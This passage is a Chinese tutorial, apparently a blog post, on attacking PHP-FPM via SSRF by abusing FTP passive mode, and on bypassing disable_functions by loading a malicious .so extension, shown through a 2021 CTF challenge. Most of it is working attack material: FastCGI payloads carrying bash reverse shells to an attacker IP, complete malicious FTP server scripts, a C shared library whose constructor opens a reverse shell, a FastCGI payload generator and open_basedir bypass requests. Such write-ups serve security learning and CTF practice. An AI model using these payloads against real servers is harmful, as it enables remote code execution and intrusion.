可以看到这里主要功能点是：读取一个给定的路径 `$_GET['viewFile']`，之后写回文件中 `$_GET['viewFile']`，这相当于什么都没有做！

由于我们可以运行 file\_get\_contents() 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送HTTP请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。

众所周知，如果我们能向 PHP-FPM 发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与gopher://协议结合使用，curl支持gopher://协议，但file\_get\_contents却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议是FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从FTP服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个有服务端指定的IP和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，如果我们尝试使用 `viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

-   首先通过 file\_get\_contents() 函数连接到我们的FTP服务器，并下载file.txt。
-   然后再通过 file\_put\_contents() 函数连接到我们的FTP服务器，并将其上传回file.txt。

现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file\_get\_contents() 在我们的服务器上下载一个文件，当它试图使用 file\_put\_contents() 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成SSRF了。

下面我们来演示一下攻击过程。

首先，我们使用gopherus生成攻击fastcgi的payload：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

得到payload，而我们需要的是上面payload中 `_` 后面的数据部分，即：

```plain
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

在攻击机上设置好nc监听：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9223f966-b2e5-1.png)

然后编写如下脚本（脚本是从网上扒的，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的ftp服务，并将上面的payload中的数据替换掉下面ftp脚本中的payload的内容：

```plain
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

运行上述脚本，一个恶意ftp服务就起来了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9253cd1c-b2e5-1.png)

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。

最后，构造如下请求，触发攻击：

```plain
/ssrf.php?viewFile=ftp://aaa@192.168.43.247:23/123
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-9298ae28-b2e5-1.png)

成功反弹shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134744-92ee0e9a-b2e5-1.png)

假设有以下代码：

```plain
<?php
file_put_contents($_GET['file'], $_GET['data']);
```

经测试目标主机的 9000 端口上存在 PHP-FPM ，那我们便可以利用与刚才相似的原理，通过搭建恶意的 ftp 服务器来攻击 PHP-FPM。

首先还是使用 gopherus 生成payload：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

得到的payload只截取 `_` 后面的数据部分。

然后再攻击机上执行以下python脚本搭建一个恶意的 ftp 服务器：

```plain
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

并在 vps 上开启一个 nc 监听，用于接收反弹的shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-93e65a0a-b2e5-1.png)

最后构造 url 发送 payload 即可：

```plain
/?file=ftp://aaa@192.168.43.247:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-9433ab84-b2e5-1.png)

如下图所示，命令执行成功，并成功反弹Shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134747-94b41774-b2e5-1.png)

## 通过加载恶意 .so 实现 RCE 绕过 Disable\_Dunctions

我们在渗透测试中常常会遇到目标环境设置了 disable\_functions 的情况，`disable_functions` 这个选项是 PHP 加载的时候就确定了并且我们没有权限通过 `php_value` 选项对其进行修改，但是 LD\_PRELOAD 绕过 disable\_functions 的方法给了我们思路。即我们可以通过加载恶意 .so 扩展的方法实现系统命令的执行，从而一举绕过 disable\_functions 对我们的限制。

有时候常见的攻击 PHP-FPM 的方法并不能成功实现代码执行，但我们可以通过加载恶意 .so 扩展的方法实现系统的命令执行。我们知道 LD\_PRELOAD 绕过 disable\_functions 大致就是把我们编译出来的恶意的 .so 文件加载到环境变量中去执行，从而实现执行系统命令。

LD\_PRELOAD 是通过 putenv() 把so文件加载到环境变量中再去调用。那么我们 Fastcgi 也完全可以做同样的事，只需要通过 `PHP_VALUE` 给 php.ini 添加一个 extender 扩展就行了。

```plain
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
```

下面我们通过 [\[2021 蓝帽杯\]one\_Pointer\_php](https://buuoj.cn/challenges#[%E8%93%9D%E5%B8%BD%E6%9D%AF%202021]One%20Pointer%20PHP) 这道 CTF 例题来演示攻击过程。

该可以通过 PHP 数组溢出绕过限制实现 eval() 任意代码执行，但是题目的PHP环境还设置了以下两个限制：

-   disable\_functions：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134747-94e0dc50-b2e5-1.png)

过滤了各种命令执行函数，但是像 scandir、file\_get\_contents、file\_put\_contents 等目录和文件操作函数没有被过滤

-   open\_basedir

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134748-95055bfc-b2e5-1.png)

设置了 open\_basedir，只能访问 Web 目录，但我们可以利用chdir()与ini\_set()组合来绕过 open\_basedir：

```plain
/add_api.php?backdoor=mkdir('css');chdir('css');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134748-955479bc-b2e5-1.png)

在根目录里发现了 flag。

尝试使用 file\_get\_contents() 等函数读取均失败，猜测是出题人对flag的权限做了限制。那我们就要想办法提权了，但是要提权则必须先拿到shell执行命令，也就是得要先绕过disable\_functions。

这里尝试了很多方法绕过disable\_functions均失败，当我读取 /proc/self/cmdline 时发现当前进程是 php-fpm：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-959b765a-b2e5-1.png)

所以说这道题应该就是通过攻击 php-fpm 来绕过 disable\_functions 了。

首先查看nginx配置文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-95bd92ee-b2e5-1.png)

发现 PHP-FPM 绑定在了本地 9001 端口上。

好了，既然我们可以通过 eval() 执行任意代码，那我们便可以构造恶意代码进行 SSRF，利用 SSRF 攻击本地的 PHP-FPM。我们可以通过在vps上搭建恶意的ftp，骗取目标主机将 payload 转发到自己的 9001 端口上，从而实现攻击 PHP-FPM 并执行命令，原理上文已经讲过了。

首先使用以下c文件 hpdoger.c 编译一个恶意的 .so 扩展，这里直接用网上亘古不变的写法：

```plain
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1'");
}
```

通过 shared 命令编译：

```plain
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134749-960b1ee2-b2e5-1.png)

然后将生成的 hpdoger.so 上传到目标主机（我这里上传到 /tmp 目录，可以使用 `copy('http://vps/hpdoger.so','/tmp/hpdoger.so')` ）

然后简单修改以下脚本（根据 [fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php) 改的）并执行，生成 payload：

```plain
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
    private $_host = null;
    /**
     * Port
     * @var Integer
     */
    private $_port = null;
    /**
     * Keep Alive
     * @var Boolean
     */
    private $_keepAlive = false;
    /**
     * Constructor
     *
     * @param String $host Host of the FastCGI application
     * @param Integer $port Port of the FastCGI application
     */
    public function __construct($host, $port = 9001) // and default value for port, just for unixdomain socket
    {
        $this->_host = $host;
        $this->_port = $port;
    }
    /**
     * Define whether or not the FastCGI application should keep the connection
     * alive at the end of a request
     *
     * @param Boolean $b true if the connection should stay alive, false otherwise
     */
    public function setKeepAlive($b)
    {
        $this->_keepAlive = (boolean)$b;
        if (!$this->_keepAlive && $this->_sock) {
            fclose($this->_sock);
        }
    }
    /**
     * Get the keep alive status
     *
     * @return Boolean true if the connection should stay alive, false otherwise
     */
    public function getKeepAlive()
    {
        return $this->_keepAlive;
    }
    /**
     * Create a connection to the FastCGI application
     */
    private function connect()
    {
        if (!$this->_sock) {
            //$this->_sock = fsockopen($this->_host, $this->_port, $errno, $errstr, 5);
            $this->_sock = stream_socket_client($this->_host, $errno, $errstr, 5);
            if (!$this->_sock) {
                throw new Exception('Unable to connect to FastCGI application');
            }
        }
    }
    /**
     * Build a FastCGI packet
     *
     * @param Integer $type Type of the packet
     * @param String $content Content of the packet
     * @param Integer $requestId RequestId
     */
    private function buildPacket($type, $content, $requestId = 1)
    {
        $clen = strlen($content);
        return chr(self::VERSION_1)         /* version */
            . chr($type)                    /* type */
            . chr(($requestId >> 8) & 0xFF) /* requestIdB1 */
            . chr($requestId & 0xFF)        /* requestIdB0 */
            . chr(($clen >> 8 ) & 0xFF)     /* contentLengthB1 */
            . chr($clen & 0xFF)             /* contentLengthB0 */
            . chr(0)                        /* paddingLength */
            . chr(0)                        /* reserved */
            . $content;                     /* content */
    }
    /**
     * Build an FastCGI Name value pair
     *
     * @param String $name Name
     * @param String $value Value
     * @return String FastCGI Name value pair
     */
    private function buildNvpair($name, $value)
    {
        $nlen = strlen($name);
        $vlen = strlen($value);
        if ($nlen < 128) {
            /* nameLengthB0 */
            $nvpair = chr($nlen);
        } else {
            /* nameLengthB3 & nameLengthB2 & nameLengthB1 & nameLengthB0 */
            $nvpair = chr(($nlen >> 24) | 0x80) . chr(($nlen >> 16) & 0xFF) . chr(($nlen >> 8) & 0xFF) . chr($nlen & 0xFF);
        }
        if ($vlen < 128) {
            /* valueLengthB0 */
            $nvpair .= chr($vlen);
        } else {
            /* valueLengthB3 & valueLengthB2 & valueLengthB1 & valueLengthB0 */
            $nvpair .= chr(($vlen >> 24) | 0x80) . chr(($vlen >> 16) & 0xFF) . chr(($vlen >> 8) & 0xFF) . chr($vlen & 0xFF);
        }
        /* nameData & valueData */
        return $nvpair . $name . $value;
    }
    /**
     * Read a set of FastCGI Name value pairs
     *
     * @param String $data Data containing the set of FastCGI NVPair
     * @return array of NVPair
     */
    private function readNvpair($data, $length = null)
    {
        $array = array();
        if ($length === null) {
            $length = strlen($data);
        }
        $p = 0;
        while ($p != $length) {
            $nlen = ord($data{$p++});
            if ($nlen >= 128) {
                $nlen = ($nlen & 0x7F << 24);
                $nlen |= (ord($data{$p++}) << 16);
                $nlen |= (ord($data{$p++}) << 8);
                $nlen |= (ord($data{$p++}));
            }
            $vlen = ord($data{$p++});
            if ($vlen >= 128) {
                $vlen = ($nlen & 0x7F << 24);
                $vlen |= (ord($data{$p++}) << 16);
                $vlen |= (ord($data{$p++}) << 8);
                $vlen |= (ord($data{$p++}));
            }
            $array[substr($data, $p, $nlen)] = substr($data, $p+$nlen, $vlen);
            $p += ($nlen + $vlen);
        }
        return $array;
    }
    /**
     * Decode a FastCGI Packet
     *
     * @param String $data String containing all the packet
     * @return array
     */
    private function decodePacketHeader($data)
    {
        $ret = array();
        $ret['version']       = ord($data{0});
        $ret['type']          = ord($data{1});
        $ret['requestId']     = (ord($data{2}) << 8) + ord($data{3});
        $ret['contentLength'] = (ord($data{4}) << 8) + ord($data{5});
        $ret['paddingLength'] = ord($data{6});
        $ret['reserved']      = ord($data{7});
        return $ret;
    }
    /**
     * Read a FastCGI Packet
     *
     * @return array
     */
    private function readPacket()
    {
        if ($packet = fread($this->_sock, self::HEADER_LEN)) {
            $resp = $this->decodePacketHeader($packet);
            $resp['content'] = '';
            if ($resp['contentLength']) {
                $len  = $resp['contentLength'];
                while ($len && $buf=fread($this->_sock, $len)) {
                    $len -= strlen($buf);
                    $resp['content'] .= $buf;
                }
            }
            if ($resp['paddingLength']) {
                $buf=fread($this->_sock, $resp['paddingLength']);
            }
            return $resp;
        } else {
            return false;
        }
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";    // 目标主机已知的PHP文件的路径
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';    // 啥也不是, 不用管
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>";    // 啥也不是, 不用管
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9667f37e-b2e5-1.png)

然后执行以下脚本自己 vps 上搭建一个恶意的 ftp 服务器：

```plain
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9689433a-b2e5-1.png)

然后在 vps 上开启一个 nc 监听，用于接收反弹的shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-96a1e7f0-b2e5-1.png)

最后通过 eval() 构造如下恶意代码通过 file\_put\_contents() 与我们 vps 上恶意的 ftp 服务器建立连接：

```plain
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B3PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+hpdoger.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9000%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

此时当 ftp 建立连接后，会通过被动模式将 payload 重定向到目标主机本地 9001 端口的 PHP-FPM 上，并成功反弹Shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134751-96c8a3f4-b2e5-1.png)

后面就是一个 SUID 提权了，利用的是 /usr/local/bin/php，直接进行 PHP 交互模式执行代码获取 flag 即可。

## 未完待续......

> 参考：
> 
> [https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)
> 
> [https://www.cnblogs.com/itbsl/p/9828776.html#web-服务器和-fastcgi-交互过程](https://www.cnblogs.com/itbsl/p/9828776.html#web-%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%92%8C-fastcgi-%E4%BA%A4%E4%BA%92%E8%BF%87%E7%A8%8B)
> 
> [https://xz.aliyun.com/t/5598#toc-4](https://xz.aliyun.com/t/5598#toc-4)
> 
> [https://bbs.ichunqiu.com/thread-58455-1-1.html](https://bbs.ichunqiu.com/thread-58455-1-1.html)
> 
> [https://github.com/adoy/PHP-FastCGI-Client](https://github.com/adoy/PHP-FastCGI-Client)
> 
> [https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
> 
> [https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi\_jailbreak.php](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/fcgi_jailbreak.php)
> 
> [https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/php-fastcgi-remote-exploit.md](https://github.com/wofeiwo/webcgi-exploits/blob/master/php/Fastcgi/php-fastcgi-remote-exploit.md)
